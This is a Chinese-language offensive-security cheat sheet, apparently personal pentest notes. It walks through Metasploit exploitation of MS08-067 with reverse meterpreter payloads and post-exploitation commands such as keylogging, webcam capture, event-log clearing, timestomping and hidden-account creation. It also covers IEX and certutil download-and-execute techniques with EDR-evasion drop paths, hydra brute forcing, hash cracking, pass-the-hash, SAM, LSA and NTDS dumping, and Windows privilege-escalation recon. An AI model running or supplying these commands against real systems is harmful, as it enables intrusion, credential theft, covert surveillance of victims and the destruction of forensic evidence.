 # Windows + Linux 工具

<details>

<summary>msfconsole</summary>

✅ Metasploit Framework 精簡實戰手冊

以下依據實戰流程順序整理，僅保留最重要指令，適合初學者快速上手。

***

#### 🧭 實戰流程表格：

| 步驟  | 操作內容          | 指令或說明                                                                                                                     |
| --- | ------------- | ------------------------------------------------------------------------------------------------------------------------- |
| 1️⃣ | 啟動 Metasploit | `msfconsole`                                                                                                              |
| 2️⃣ | 搜尋漏洞模組        | `search ms08_067`                                                                                                         |
| 3️⃣ | 載入模組          | `use exploit/windows/smb/ms08_067_netapi`                                                                                 |
| 4️⃣ | 查看參數          | `show options`                                                                                                            |
| 5️⃣ | 設定參數          | `set RHOSTS <目標IP>set LHOST <本機IP>set LPORT 4444`                                                                         |
| 6️⃣ | 設定 Payload    | `set payload windows/meterpreter/reverse_tcp`                                                                             |
| 7️⃣ | 額外 Payload 選擇 | `windows/meterpreter/reverse_httpswindows/shell/reverse_tcplinux/x86/meterpreter/reverse_tcpwindows/meterpreter/bind_tcp` |
| 8️⃣ | 再次確認設定        | `show options`                                                                                                            |
| 9️⃣ | 執行攻擊          | `exploit`                                                                                                                 |
| 🔟  | 控制目標          | `sessions -lsessions -i 1`                                                                                                |

***

#### 🛠️ 後滲透常用指令：

| 功能        | 指令                    |
| --------- | --------------------- |
| 提權        | `getsystem`           |
| 查看程序      | `ps`                  |
| 遷移進程      | `migrate <PID>`       |
| Dump hash | `hashdump`            |
| 上傳檔案      | `upload <本地> <目標路徑>`  |
| 執行檔案      | `execute -f <檔案名> -i` |

***

#### 📦 上傳與下載檔案：

| 類型          | 指令範例                                                    |
| ----------- | ------------------------------------------------------- |
| 上傳至 Linux   | `upload C:\Users\attacker\payload.exe /tmp/payload.exe` |
| 上傳至 Windows | `upload /root/file.txt C:\Windows\Temp\file.txt`        |
| 從目標下載       | `download C:\Users\victim\secret.docx ./secret.docx`    |

***

#### 🖼️ 延伸後滲透功能：

| 功能      | 指令                                            | 說明                           |
| ------- | --------------------------------------------- | ---------------------------- |
| 擷取螢幕畫面  | `screenshot`                                  | 截取目標使用者當前螢幕畫面                |
| 鍵盤側錄開始  | `keyscan_start`                               | 啟動鍵盤記錄器                      |
| 鍵盤側錄匯出  | `keyscan_dump`                                | 匯出已側錄的按鍵資料                   |
| 停止鍵盤側錄  | `keyscan_stop`                                | 停止鍵盤記錄器                      |
| 開啟攝影機   | `webcam_list`, `webcam_snap`                  | 顯示可用攝影機，擷取影像（需支援）            |
| 調整桌面控制權 | `uictl enable keyboard`, `uictl enable mouse` | 控制目標鍵盤與滑鼠                    |
| 系統桌面切換  | `setdesktop <ID>`                             | 切換至其他使用者桌面（需具備會話）            |
| 偽造檔案時間  | `timestomp`                                   | 修改檔案建立/修改/存取時間，常用於反取證        |
| 清除事件紀錄  | `clearev`                                     | 清除系統 event log（常搭配提權後執行）     |
| 檢視環境變數  | `getenv`                                      | 查看目標系統的重要環境變數資訊              |
| 注入進程    | `inject`                                      | 將 shellcode 注入到現有程序（需搭配進階模組） |
| 建立帳號    | `run post/windows/manage/add_user`            | 在目標系統建立隱藏帳號（需管理員）            |
| 新增帳號到群組 | `net localgroup administrators <user> /add`   | 添加使用者至管理群組（手動）               |

| 功能   | 指令                                            |
| ---- | --------------------------------------------- |
| 擷取螢幕 | `screenshot`                                  |
| 鍵盤側錄 | `keyscan_start`、`keyscan_dump`、`keyscan_stop` |
| 清除事件 | `clearev`                                     |

***

💡 **提示**：可將指令寫入 `.rc` 自動化腳本：

```bash
msfconsole -r /root/demo.rc
```

***

這就是實戰中最常見、最實用的 10 步驟流程表格，搭配延伸後滲透技巧。練熟這份表格，絕對能打穿 80% 靶機。需要我再補上自動提權模組、持久化技巧、或生成 PDF 嗎？📄

</details>

<details>

<summary>文件傳送 Windows / Linux 下載</summary>

📊 檔案落地方式比較表（常用指數 ⭐⭐⭐⭐⭐）

| 傳送方式                               | 指令範例                                                                        | 常用指數  | 備註                         |
| ---------------------------------- | --------------------------------------------------------------------------- | ----- | -------------------------- |
| **PowerShell - Invoke-WebRequest** | Invoke-WebRequest -Uri [http://x](http://x/) -OutFile file.exe              | ⭐⭐⭐⭐⭐ | 最常見，兼容性高                   |
| **PowerShell - IEX 記憶體執行**         | IEX (New-Object Net.WebClient).DownloadString('[http://x](http://x/)')      | ⭐⭐⭐⭐⭐ | 無檔案落地、適合隱蔽攻擊               |
| **certutil（無 PowerShell 環境）**      | certutil -urlcache -split -f [http://x](http://x/) file.exe                 | ⭐⭐⭐⭐  | 在不支援 PS 的機器上超有用            |
| **bitsadmin（舊）**                   | bitsadmin /transfer job [http://x](http://x/) file.exe                      | ⭐⭐    | 被淘汰，舊版 Windows 才用          |
| **curl/wget (Linux)**              | curl -o /tmp/x [http://x](http://x/) / wget -O /tmp/x [http://x](http://x/) | ⭐⭐⭐⭐  | Linux 上王者                  |
| **PHP file\_get\_contents**        | php -r '...file\_get\_contents...'                                          | ⭐⭐    | 用於 PHP 可執行的環境（例如 Webshell） |
| **SCP（需 SSH 開啟）**                  | scp file user@ip:/tmp/                                                      | ⭐⭐    | 安全但有 SSH 限制                |
| **pyftpdlib FTP 伺服器**              | python3 -m pyftpdlib -p 2121                                                | ⭐⭐    | 快速建 FTP，適合臨時環境             |
| **Python http.server**             | python3 -m http.server 8000                                                 | ⭐⭐⭐⭐⭐ | 攻擊機設置 payload server 的最愛   |
| **impacket-smbserver（SMB 分享）**     | impacket-smbserver share /tmp                                               | ⭐⭐⭐⭐  | 適用於 Windows SMB 拓撲下的內網     |

🔐 常用落地路徑（隱蔽度排名）

| 路徑                            | 隱蔽星等  | 理由                     |
| ----------------------------- | ----- | ---------------------- |
| C:\ProgramData\\              | ⭐⭐⭐⭐⭐ | 預設資料夾，權限寬鬆，不易偵測        |
| C:\Users\Public\\             | ⭐⭐⭐⭐  | 允許所有人寫入，合法性高           |
| %APPDATA%\Microsoft\Windows\\ | ⭐⭐⭐⭐  | 系統設定位置，名稱可偽裝成 legit 程序 |
| %TEMP%                        | ⭐⭐⭐   | 雖然顯眼，但防毒通常不即時清查        |

🏆 總結建議（最推薦組合）

| 目的             | 推薦方法                                            | 理由               |
| -------------- | ----------------------------------------------- | ---------------- |
| 快速傳送 + 落地      | PowerShell Invoke-WebRequest + C:\ProgramData\\ | 成功率最高            |
| 隱蔽執行           | PowerShell IEX + 不寫入磁碟                          | 超難偵測，適合躲過 EDR    |
| 無 PowerShell 時 | certutil                                        | 幾乎所有 Windows 都內建 |
| Linux 目標       | wget / curl + /tmp                              | 簡單快速             |
| Webshell       | PHP file\_get\_contents                         | Webserver 傳檔首選   |



</details>

<details>

<summary>密碼字典建立 +  Windows/ Linux 密碼爆破攻擊(Online)</summary>

**1️⃣ 資訊蒐集（字典建立階段）**

<table><thead><tr><th width="112.09765625">步驟</th><th width="239.7578125">指令</th><th>用途說明</th><th>輸出檔案</th></tr></thead><tbody><tr><td>1️⃣ 擷取網站文字內容</td><td><code>cewl https://target.com -d 2 -m 3 > raw.txt</code></td><td>自動擷取整個網站文字內容（人名/職稱/描述）</td><td><code>raw.txt</code></td></tr><tr><td>2️⃣ 從內容中找出人名</td><td><code>grep -E '[A-Z][a-z]{2,} [A-Z][a-z]{2,}' raw.txt > names_auto.txt</code></td><td>從網站文字中抓出「名字 姓氏」格式詞彙</td><td><code>names_auto.txt</code></td></tr><tr><td>3️⃣ 手動補充人名清單</td><td>✍️ 手動建立或編輯 <code>names_manual.txt</code></td><td>如果有你自行觀察得出的人名，可手動補進清單</td><td><code>names_manual.txt</code></td></tr><tr><td>4️⃣ 合併自動 + 手動清單</td><td><code>cat names_auto.txt names_manual.txt > names_combined.txt</code></td><td>將兩者整合為最完整人名來源</td><td><code>names_combined.txt</code></td></tr><tr><td>5️⃣ 淨化重複人名</td><td><code>sort -u names_combined.txt > names.txt</code></td><td>去除重複、統一格式，生成乾淨人名清單</td><td>✅ <code>names.txt</code></td></tr><tr><td>6️⃣ 轉換為帳號格式</td><td><code>./username-anarchy -i names.txt > user.list</code></td><td>使用工具將人名轉為常見使用者名稱格式</td><td>✅ <code>usernames.txt</code>（用於 hydra -L）</td></tr></tbody></table>

***

```bash
#!/bin/bash

# ✅ 使用方式：
# bash build_usernames.sh <目標網址> <手動人名清單>

if [ "$#" -ne 2 ]; then
    echo "用法：$0 <目標網址> <手動人名清單>"
    exit 1
fi

TARGET_URL="$1"
MANUAL_NAMES="$2"

echo "[+] 使用 cewl 擷取網站內容..."
cewl "$TARGET_URL" -d 2 -m 3 > raw.txt

echo "[+] 使用 grep 擷取人名格式..."
grep -E '[A-Z][a-z]{2,} [A-Z][a-z]{2,}' raw.txt > names_auto.txt

echo "[+] 合併自動與手動人名清單..."
cat names_auto.txt "$MANUAL_NAMES" > names_combined.txt

echo "[+] 淨化並去除重複..."
sort -u names_combined.txt > names.txt

echo "[+] 使用 username-anarchy 產生帳號格式..."
./username-anarchy -i names.txt > user.list

echo "[✓] 完成！帳號字典輸出於：usernames.txt"

```



| 步驟        | 指令                                                                                                 | 用途說明                  | 輸出檔案                                 |
| --------- | -------------------------------------------------------------------------------------------------- | --------------------- | ------------------------------------ |
| 1️⃣       | `cewl https://target.com -d 3 -m 6 --lowercase -w base_wordlist.txt`                               | 從網站擷取有語意的關鍵字作為密碼字典起點  | `base_wordlist.txt`                  |
| 2️⃣       | `hashcat -r /usr/share/hashcat/rules/best64.rule base_wordlist.txt --stdout > strong_wordlist.txt` | 使用規則將詞彙變形（加數字、大小寫、年份） | `strong_wordlist.txt`                |
| 3️⃣       | `awk '{print $1\"123\"}' strong_wordlist.txt > strong_123.txt`                                     | 額外自定常見結尾變化            | `strong_123.txt`                     |
| 4️⃣       | `cat strong_wordlist.txt strong_123.txt \| sort -u > password.list`                                |                       | 合併所有密碼版本，整理去重                        |
| ☑️ **完成** | **這份密碼字典會被用於 hydra 的 -P**                                                                          | -                     | 使用時：`hydra -P mega_wordlist.txt ...` |

**3️⃣ 破解密碼（離線模式）(選項如果係攞到hash嘅話) (所有需要解密)**

| ⭐     | 指令                                                                                            | 說明                       | 攻擊前提                                   |
| ----- | --------------------------------------------------------------------------------------------- | ------------------------ | -------------------------------------- |
| ⭐⭐⭐⭐⭐ | `hashcat -m 1000 dumpedhashes.txt rockyou.txt`                                                | 破解 NTLM hash（Windows 密碼） | ✔️ NTLM hash (如從 SAM 或 secretsdump 拿到) |
| ⭐⭐⭐⭐⭐ | `john --wordlist=rockyou.txt zip.hash`                                                        | 破解 zip 加密壓縮包密碼           | ✔️ 使用 `zip2john` 先產出 zip.hash          |
| ⭐⭐⭐⭐  | `hashcat -m 1000 <hash> rockyou.txt --show`                                                   | 破解單一 NTLM hash 並即時顯示結果   | ✔️ 一組 hash 值、字典檔                       |
| ⭐⭐⭐⭐  | `unshadow /etc/passwd /etc/shadow > unshadowed.hashes`                                        | 整合 Linux 帳密為一個 hash 檔    | ✔️ 拿到 Linux 的 passwd & shadow 檔案       |
| ⭐⭐⭐⭐  | `hashcat -m 1800 -a 0 unshadowed.hashes rockyou.txt -o cracked.txt`                           | 破解 Linux hash，輸出結果檔      | ✔️ 使用 unshadow 合成的 hash 檔              |
| ⭐⭐⭐⭐  | `hashcat -m 500 -a 0 md5-hashes.list rockyou.txt`                                             | 破解 MD5 hash              | ✔️ hash 類型為 MD5，已知格式                   |
| ⭐⭐⭐⭐  | `zip2john file.zip > zip.hash`                                                                | 生成 zip hash，供 john 使用    | ✔️ 有加密的 zip 壓縮檔                        |
| ⭐⭐⭐⭐  | `john --wordlist=rockyou.txt zip.hash`                                                        | 對 zip.hash 嘗試爆破密碼        | ✔️ 用 zip2john 產出 hash                  |
| ⭐⭐⭐⭐  | `office2john.py Protected.docx > protected-docx.hash`                                         | 將加密 Office 文件轉為 hash     | ✔️ 有受保護的 Word 檔案                       |
| ⭐⭐⭐⭐  | `john --wordlist=rockyou.txt protected-docx.hash`                                             | 破解 Office 文件密碼           | ✔️ 上一步產出的 hash                         |
| ⭐⭐⭐⭐  | `bitlocker2john -i Backup.vhd > backup.hashes`                                                | 從 BitLocker 容器提取 hash    | ✔️ 有 `.vhd` 磁碟影像檔                      |
| ⭐⭐⭐⭐  | `hashcat -m 22100 backup.hash rockyou.txt -o backup.cracked`                                  | 破解 BitLocker hash        | ✔️ 有 backup.hash + 字典                  |
| ⭐⭐⭐   | `python3 ssh2john.py id_rsa > ssh.hash`                                                       | 將 SSH 私鑰轉換成 hash（供破解）    | ✔️ 有 SSH 金鑰檔                           |
| ⭐⭐⭐   | `john ssh.hash --show`                                                                        | 破解 SSH 私鑰密碼              | ✔️ 已產生 hash 檔                          |
| ⭐⭐⭐   | `pdf2john.pl secret.pdf > pdf.hash`                                                           | 將加密 PDF 轉換成 hash 檔       | ✔️ 有受保護的 PDF 文件                        |
| ⭐⭐⭐   | `john --wordlist=rockyou.txt pdf.hash`                                                        | 嘗試爆破 PDF 檔案密碼            | ✔️ 上一步 hash 結果                         |
| ⭐⭐    | `file GZIP.gzip`                                                                              | 判斷檔案格式（偵測 GZIP 類型）       | ✔️ 有壓縮加密檔，需確認格式                        |
| ⭐⭐    | \`for i in $(cat rockyou.txt); do openssl enc -aes-256-cbc -d -in GZIP.gzip -k $i 2>/dev/null | tar xz; done\`           | 用字典一個個爆 AES 解密 gzip                    |

**4️⃣ 爆破登入（線上測試帳密）(Windows 爆破) (Linux 爆破)**&#x20;

| ⭐     | 指令                                                             | 描述                            | ⚠️ 攻擊前置條件                                    |
| ----- | -------------------------------------------------------------- | ----------------------------- | -------------------------------------------- |
| ⭐⭐⭐⭐⭐ | `hydra -L user.list -P password.list <service>://<ip>`         | 使用帳密清單爆破 SSH、RDP、Web Login 等  | <p>✔️ 服務已開啟（可連線）<br>✔️ 用戶清單與密碼字典準備好</p>      |
| ⭐⭐⭐⭐  | `hydra -C userpass.list ssh://<ip>`                            | 使用 user:pass 格式爆破（憑證填充）       | <p>✔️ SSH 可連線<br>✔️ 已抓取的帳密組合清單</p>           |
| ⭐⭐⭐⭐  | `hydra -l username -P password.list <service>://<ip>`          | 針對單一帳號，爆破其可能密碼                | <p>✔️ 確定帳號名稱<br>✔️ 密碼字典準備好</p>               |
| ⭐⭐⭐⭐  | `hydra -L user.list -p password <service>://<ip>`              | 用一組密碼爆破多個帳號                   | <p>✔️ 常見弱密碼（如：123456）<br>✔️ 帳號清單準備好</p>      |
| ⭐⭐⭐⭐  | `evil-winrm -i <ip> -u Administrator -H "<hash>"`              | 使用哈希登入 Windows（Pass-The-Hash） | <p>✔️ 目標開啟 WinRM（5985）<br>✔️ 有 NTLM hash</p> |
| ⭐⭐⭐⭐  | `crackmapexec winrm <ip> -u user.list -p password.list`        | 使用 CrackMapExec 爆破 WinRM      | <p>✔️ 有使用者清單<br>✔️ 目標開啟 WinRM 服務</p>         |
| ⭐⭐⭐   | `crackmapexec smb <ip> -u "user" -p "password" --shares`       | 用帳密登入 SMB 並列出共享資料夾            | <p>✔️ 帳密組合已知<br>✔️ 目標開啟 445 port（SMB）</p>    |
| ⭐⭐⭐   | `crackmapexec smb <ip> --local-auth -u <user> -p <pass> --sam` | 導出本地 SAM 密碼 hash              | <p>✔️ 有目標本機帳號與密碼<br>✔️ 該帳號為 local admin</p>  |
| ⭐⭐⭐   | `crackmapexec smb <ip> --local-auth -u <user> -p <pass> --lsa` | 讀取 LSA secrets，可能拿到明文密碼       | <p>✔️ 本地 admin 權限<br>✔️ SMB port 可連線</p>     |
| ⭐⭐⭐   | `crackmapexec smb <ip> -u <user> -p <pass> --ntds`             | 從 NTDS 抽取整個域內帳密 hash          | <p>✔️ admin 權限帳號<br>✔️ 目標為域控或有複製 NTDS 權限</p> |

</details>

<details>

<summary>預設憑證</summary>

以下是 **DefaultCreds-cheat-sheet 使用教學** 的步驟表格整理，讓你一目了然：

<table><thead><tr><th width="64.55859375">步驟</th><th>操作說明</th><th>命令/工具</th><th>預期結果</th><th>如果出錯該怎麼辦</th></tr></thead><tbody><tr><td>1️⃣</td><td>安裝工具</td><td><code>pip3 install defaultcreds-cheat-sheet</code></td><td>安裝成功後可以使用 <code>creds</code> 指令</td><td>若無法安裝：<br>① 確認已安裝 Python3/pip3<br>② 檢查網路<br>③ 嘗試手動安裝</td></tr><tr><td>2️⃣</td><td>手動安裝（如步驟1失敗）</td><td>git clone <a href="https://github.com/ihebski/DefaultCreds-cheat-sheet">https://github.com/ihebski/DefaultCreds-cheat-sheet</a><br>cd DefaultCreds-cheat-sheet<br>pip3 install -r requirements.txt<br>cp creds /usr/bin/ &#x26;&#x26; chmod +x /usr/bin/creds</td><td>將 <code>creds</code> 命令加入可執行環境</td><td>若 <code>creds</code> 無法執行，確認 <code>/usr/bin/creds</code> 權限與環境變數</td></tr><tr><td>3️⃣</td><td>搜尋預設帳密</td><td><code>creds search tomcat</code></td><td>列出 Apache Tomcat 的預設帳密，如 <code>admin:admin</code></td><td>若無結果，嘗試不同關鍵字，例如 <code>apache</code></td></tr><tr><td>4️⃣</td><td>篩選出所有設備類型</td><td><code>creds dump</code></td><td>列出所有支援查詢的設備與應用程式類型</td><td>結果太多可加上 `</td></tr><tr><td>5️⃣</td><td>實際應用帳密登入目標</td><td>依據查到的帳密登入 Web、FTP、SSH 等服務</td><td>測試是否能成功登入</td><td>若失敗，代表目標已改密，建議繼續其他測試手法</td></tr><tr><td>6️⃣</td><td>對特定設備類型列出帳密</td><td>`creds dump</td><td>grep -i cisco`</td><td>篩出所有 Cisco 設備帳密</td></tr></tbody></table>

</details>

**Windows 權限偵察與後續行動表格（含姿勢判斷 + 完整指令）**

| 指令                                                                                                             | 檢查點（進階姿勢）                                                                                                                                                                                                                                                                                                                      | 若發現目標                                                         | 下一步行動                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                   |
| -------------------------------------------------------------------------------------------------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ | ------------------------------------------------------------- | ----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| <p></p><ol><li><mark style="color:red;">初始存取（Exploit 漏洞打進機器）</mark></li></ol>                                  |                                                                                                                                                                                                                                                                                                                                |                                                               |                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                         |
| `systeminfo`                                                                                                   |                                                                                                                                                                                                                                                                                                                                |                                                               | [#windows-kernel-exploits-nei-he-lou-dong-ti-quan](windows-quan-xian-ti-sheng.md#windows-kernel-exploits-nei-he-lou-dong-ti-quan "mention")                                                                                                                                                                                                                                                                                                                                                                                                                             |
| `wmic product get name`                                                                                        | 掃描應用程式是否存在弱點（如 Java 6、Flash、老版 7-Zip、TeamViewer）                                                                                                                                                                                                                                                                               | 是                                                             | 查 CVE，準備特定 Exploit 或利用 DLL Hijacking                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                    |
| 使用 msfvenom 生成惡意 MSI 並建立反向連線                                                                                   |                                                                                                                                                                                                                                                                                                                                |                                                               | [#zhong-du-gong-ji-sheng-chengeyi-msi-bing-jian-li-fan-xiang-lian-xian](windows-quan-xian-ti-sheng.md#zhong-du-gong-ji-sheng-chengeyi-msi-bing-jian-li-fan-xiang-lian-xian "mention")                                                                                                                                                                                                                                                                                                                                                                                   |
| <p></p><ol start="2"><li><mark style="color:red;">權限提升（提升為 SYSTEM / Administrator）</mark></li></ol>            |                                                                                                                                                                                                                                                                                                                                |                                                               |                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                         |
| `whoami /priv`                                                                                                 | <mark style="color:red;">SeImpersonate</mark> / <mark style="color:red;">SeAssignPrimaryToken</mark> / <mark style="color:red;">SeDebugPrivilege</mark> /  <mark style="color:red;">SeTakeOwnershipPrivilege</mark> /<mark style="color:red;">SeBackupPrivilege</mark> /<mark style="color:red;">SeLoadDriverPrivilege</mark>  | 存在                                                            | [#seimpersonate-and-seassignprimarytoken-gong-ji](windows-quan-xian-ti-sheng.md#seimpersonate-and-seassignprimarytoken-gong-ji "mention")[#sedebugprivilege-quan-xian-ti-quan-gong-ji](windows-quan-xian-ti-sheng.md#sedebugprivilege-quan-xian-ti-quan-gong-ji "mention")[#setakeownership-quan-xian-lan-yong-gong-ji](windows-quan-xian-ti-sheng.md#setakeownership-quan-xian-lan-yong-gong-ji "mention")  [#print-operators-lie-yin-cao-zuo-yuan-quan-xian-li-yong](windows-quan-xian-ti-sheng.md#print-operators-lie-yin-cao-zuo-yuan-quan-xian-li-yong "mention")/ |
| `net local "Event Log Readers"`                                                                                | 顯示自己的名字                                                                                                                                                                                                                                                                                                                        |                                                               | [#event-log-readers-quan-xian-lan-yong-min-gan-ming-ling-xing-xie-qu-gong-ji](windows-quan-xian-ti-sheng.md#event-log-readers-quan-xian-lan-yong-min-gan-ming-ling-xing-xie-qu-gong-ji "mention")                                                                                                                                                                                                                                                                                                                                                                       |
| `Get-ADGroupMember -Identity DnsAdmins`                                                                        | 顯示自己的名字                                                                                                                                                                                                                                                                                                                        |                                                               | [#dnsadmins-quan-xian-lan-yong-gong-ji](windows-quan-xian-ti-sheng.md#dnsadmins-quan-xian-lan-yong-gong-ji "mention")                                                                                                                                                                                                                                                                                                                                                                                                                                                   |
| `Get-LocalGroupMember -Group "Hyper-V Administrators"`                                                         | 顯示自己的名字                                                                                                                                                                                                                                                                                                                        |                                                               | [#hyperv-administrators-quan-xian-li-yong](windows-quan-xian-ti-sheng.md#hyperv-administrators-quan-xian-li-yong "mention")                                                                                                                                                                                                                                                                                                                                                                                                                                             |
| `REG QUERY HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System /v EnableLUA`          | <p><code>REG QUERY HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System /v ConsentPromptBehaviorAdmin</code><br></p>                                                                                                                                                                                   | <p>如果是 <code>0x2</code> 或 <code>0x0</code>，恭喜，非常容易利用！<br></p> | [#user-account-controluac-rao-guo](windows-quan-xian-ti-sheng.md#user-account-controluac-rao-guo "mention")                                                                                                                                                                                                                                                                                                                                                                                                                                                             |
| `.\SharpUp.exe audit`                                                                                          | 找 `Modifiable Service Binaries`、`Modifiable Services` 或 `Modifiable Registry Keys`                                                                                                                                                                                                                                             | 是                                                             | [#ruo-quan-xian-ti-quan-gong-ji](windows-quan-xian-ti-sheng.md#ruo-quan-xian-ti-quan-gong-ji "mention")                                                                                                                                                                                                                                                                                                                                                                                                                                                                 |
| <p></p><ol start="3"><li><mark style="color:red;">憑證擷取（Dump SAM、LSASS、Security Hive 等）</mark></li></ol>        |                                                                                                                                                                                                                                                                                                                                |                                                               |                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                         |
| `net user`                                                                                                     | 檢查本地帳戶所屬群組，如 Administrators、是否已啟用、上次登入時間                                                                                                                                                                                                                                                                                       | 存在                                                            | 測試本地或遠端登入，收集活動用戶資訊                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                      |
| `net localgroup`                                                                                               | 群組中是否出現其他使用者（如其他網域使用者）或服務帳戶 -> 提示潛在橫向目標                                                                                                                                                                                                                                                                                        | 存在                                                            | 測試本地或遠端登入，辨識可能通用憑證                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                      |
| `net localgroup "Event Log Readers"`                                                                           | 有帳號存在 -> 可無需提權查看安全日誌，例如登入事件4624                                                                                                                                                                                                                                                                                                | 是                                                             | 嘗試讀取安全日誌，觀察高權限帳號活動或登入來源                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                 |
| `findstr /SIM /C:"password" *.txt *.ini *.cfg *.config *.xml`                                                  | 快速搜尋敏感檔案，針對 config 設定、密碼備註等                                                                                                                                                                                                                                                                                                    | 有密碼關鍵字                                                        | 嘗試登入 SMB、RDP、AD、VPN 等外部資源                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                               |
| `gc 'C:\Users\<username>\AppData\Local\Google\Chrome\User Data\Default\Custom Dictionary.txt'`                 | 使用者自訂詞典，常用於自定義拼字，可為密碼字典來源                                                                                                                                                                                                                                                                                                      | 有詞彙                                                           | 擴充字典進行暴力破解或社工口令組合                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                       |
| `Get-ChildItem -Path C:\ -Recurse -Include unattend.xml,unattend.xml.bak -ErrorAction SilentlyContinue`        | 搜尋系統自動化部署檔，常見於 AD join 或本地帳號配置                                                                                                                                                                                                                                                                                                 | 有檔案                                                           | 解析明文帳密，執行本地或橫向登入                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                        |
| `gc (Get-PSReadLineOption).HistorySavePath`                                                                    | PowerShell 使用歷史，會留有憑證、命令、IP 等行為痕跡                                                                                                                                                                                                                                                                                              | 有敏感內容                                                         | 重複利用命令、憑證、服務指令構建 lateral pivoting                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                       |
| `findstr /SI /M "password" *.txt *.ini *.cfg *.config *.xml`                                                   | 多點位掃描用戶文件夾與備份                                                                                                                                                                                                                                                                                                                  | 有內容                                                           | 嘗試登入其他服務或雲端資源                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                           |
| `Select-String -Path C:\Users\*\Documents\*.txt -Pattern "password"`                                           | 精準搜尋 Documents 內部檔案，有較高命中率                                                                                                                                                                                                                                                                                                     | 有發現                                                           | 做憑證爆破或橫向移動測試                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                            |
| `%SYSTEMDRIVE%\pagefile.sys`                                                                                   | 交換記憶體檔案，可能保有歷史密碼、明文資訊                                                                                                                                                                                                                                                                                                          | 可取得                                                           | 用 volatility 分析記憶體，找帳密或 hash、token 等敏感資訊                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                |
| `cmdkey /list`                                                                                                 | Windows 儲存的憑證快取，可供 runas 調用                                                                                                                                                                                                                                                                                                    | 有憑證紀錄                                                         | 使用 `runas /savecred` 重複登入，靜默使用憑證攻擊                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                      |
| `%WINDIR%\debug\NetSetup.log`                                                                                  | Windows AD 加入記錄，可能含帳號或建立者資訊                                                                                                                                                                                                                                                                                                    | 可見                                                            | 推估 AD 管理者行為、找通用憑證線索                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                     |
| `%WINDIR%\system32\config\security.sav`                                                                        | 備份登錄檔，含安全性策略與權限資訊                                                                                                                                                                                                                                                                                                              | 可取得                                                           | 做離線 Registry 分析，找 SID / ACL 或權限設定                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                       |
| <p></p><ol start="4"><li><mark style="color:red;">密碼破解（Hashcat / John 等離線攻擊）</mark></li></ol>                  |                                                                                                                                                                                                                                                                                                                                |                                                               |                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                         |
| `C:\ProgramData\Configs*`                                                                                      | 常用為自訂軟體的儲存位置，含明文帳密或 token                                                                                                                                                                                                                                                                                                      | 有設定檔                                                          | 尋找帳密設定或備份，橫向攻擊新目標                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                       |
| `sudo responder -wrf -v -I tun0`                                                                               | 捕獲 NTLM Hash：如 SMB Relay、WPAD、HTTP 基於 LAN 攔截                                                                                                                                                                                                                                                                                   | 取得 hash                                                       | 使用 hashcat / john 破解或 pass-the-hash 利用                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                  |
| `%USERPROFILE%\ntuser.dat`                                                                                     | 使用者行為分析登錄檔，可含自動登入帳密、自動啟動項等                                                                                                                                                                                                                                                                                                     | 可取                                                            | 分析使用者行為紀錄與憑證痕跡、Persist 構建依據                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                             |
| <p></p><ol start="5"><li><mark style="color:red;">👉【橫向移動】：使用擷取的憑證去登入別的主機（RDP、SMB、WMI、Psexec）</mark></li></ol> |                                                                                                                                                                                                                                                                                                                                |                                                               |                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                         |
